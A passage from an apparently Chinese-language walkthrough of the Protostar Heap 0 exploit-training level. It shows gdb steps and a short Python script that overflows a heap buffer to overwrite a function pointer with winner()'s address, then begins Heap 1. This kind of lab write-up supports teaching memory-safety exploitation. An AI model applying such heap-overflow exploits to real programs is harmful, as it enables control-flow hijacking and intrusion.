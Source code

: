 ```shell
(gdb) x/64wx 0x804a008 # 查看堆上从d的位置往下64DWORD 或用 x/1s 0x0804a050
(gdb) c # 继续执行
```

<img src=".\heap0-analysis-2.png" style="zoom:67%;" />

发生的Segmentation fault说明*fp中存储的`nonwinner()`的地址被覆写为0x53535353。

如果我们想要改变控制流，需要把`winner()`函数的入口地址写到0x53535353所在的位置。

查看`winner()`的入口地址：

```shell
(gdb) p winner
```

<img src=".\heap0-analysis-3.png" style="zoom:67%;" />

由此可构造攻击脚本：

```python
# heap0.py
buffer = ""
for i in range(0x41, 0x53):
    buffer += chr(i) * 4
target = "\x64\x84\x04\x08" # winner()入口地址
print buffer + target
```

<div STYLE="page-break-after: always;"></div>

# Protostar: Heap 1

This level takes a look at code flow hijacking in data overwrite cases.
